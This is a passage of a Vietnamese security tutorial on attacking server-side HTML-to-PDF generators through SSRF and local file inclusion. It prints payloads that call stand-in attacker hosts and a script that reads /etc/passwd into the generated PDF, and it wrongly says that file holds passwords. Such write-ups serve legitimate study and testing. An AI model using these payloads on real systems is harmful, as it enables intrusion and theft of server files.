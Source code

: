 **Khai thác:**
- Kẻ tấn công có thể chèn các thẻ HTML như `<img>` hoặc `<link>` trỏ đến các URL mà kẻ tấn công kiểm soát. Điều này buộc máy chủ gửi yêu cầu HTTP đến các điểm cuối nội bộ hoặc các máy chủ mà kẻ tấn công muốn.
  
**Ví dụ Payload:**

```html
<img src="http://maliciousdomain.com/ssrftest1" />
```

Kết quả: 
- Khi PDF được tạo ra, máy chủ sẽ gửi một yêu cầu HTTP đến URL `http://maliciousdomain.com/ssrftest1`.
- Nếu hệ thống không được cấu hình đúng cách, kẻ tấn công có thể khai thác SSRF để truy cập các dịch vụ nội bộ hoặc lấy dữ liệu từ các API nội bộ của máy chủ.

---

### 9.3. Lỗ Hổng LFI (Local File Inclusion)

**LFI** là lỗ hổng cho phép kẻ tấn công đọc các tệp tin trên hệ thống của máy chủ thông qua các thẻ HTML được tiêm vào đầu vào. Điều này đặc biệt nguy hiểm khi mã JavaScript được thực thi trên máy chủ và có thể sử dụng giao thức `file://` để đọc các tệp tin cục bộ, chẳng hạn như tệp cấu hình hoặc tệp nhạy cảm.

**Khai thác với JavaScript:**

```html
<script>
  var x = new XMLHttpRequest();
  x.onload = function() {
    document.write(this.responseText);
  };
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>
```

Kết quả: 
- Máy chủ sẽ thực hiện yêu cầu đọc tệp `/etc/passwd` trên hệ thống và trả về nội dung của nó.
- Nội dung của tệp `passwd` (chứa thông tin người dùng và mật khẩu) sẽ được hiển thị trong tệp PDF tạo ra.

---

---

### 9.4. Khai thác mà không cần JavaScript
Nếu máy chủ không thực thi JavaScript, chúng ta có thể thử các thẻ như `<iframe>` hoặc `<object>` để nhúng tệp cục bộ vào PDF. Tuy nhiên, nếu các phương pháp này không hoạt động, chúng ta có thể sử dụng một kỹ thuật khác để giả mạo yêu cầu đến tệp tin cục bộ thông qua máy chủ của chúng ta, bằng cách tạo một tệp redirector.

Ví dụ Payload:

```html
<iframe src="http://attacker.com/redirector.php?url=%2fetc%2fpasswd"></iframe>
```
